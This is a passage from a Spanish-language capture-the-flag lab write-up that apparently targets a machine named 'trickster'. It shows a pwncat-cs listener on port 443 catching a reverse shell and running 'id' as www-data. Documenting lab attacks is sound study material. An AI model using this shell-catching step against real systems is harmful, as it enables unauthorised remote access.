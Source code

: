 ![Write-up Image](images/Screenshot_25.png)

Ahora vemos que en la ruta esperada se encuentra algo..
![Write-up Image](images/Screenshot_26.png)

Y recibimos la revshell.
```console
$ sudo pwncat-cs -lp 443
[21:36:05] Welcome to pwncat 🐈!                                           __main__.py:164
[21:58:57] received connection from 10.129.44.138:41694                                                                       bind.py:84
[21:58:58] 0.0.0.0:443: upgrading from /usr/bin/dash to /usr/bin/bash                                                     manager.py:957
[21:58:59] 10.129.44.138:41694: registered new host w/ db                                                                 manager.py:957
(local) pwncat$                                                                                                                         
(remote) www-data@trickster:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

